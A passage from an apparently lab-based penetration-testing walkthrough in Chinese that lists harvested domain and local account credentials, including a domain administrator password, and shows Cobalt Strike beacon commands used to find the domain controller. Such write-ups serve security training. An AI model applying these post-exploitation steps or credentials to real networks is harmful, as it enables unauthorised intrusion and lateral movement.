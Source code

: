 因此

目前得到账户信息：

 域用户名： de1ay\mssql 密码： 1qaz@WSX 

域用户名： de1ay\administrator 密码： 1qaz@WSX #这是 DC 域管理员用户和密码 

本地用户名： WEB\de1ay 密码：Y4tacker 该用户是系统本地登录系统用的。



查看网络信息找到域控，一般情况下DNS服务器很有可能就是域控

```cmd
beacon> shell ipconfig /all
```

![](img/21.png)

DNS 服务器 10.10.10.10 也就是域控。 查看域控制器

```cmd
beacon> shell net group "domain controllers" /domain
```

![](img/22.png)
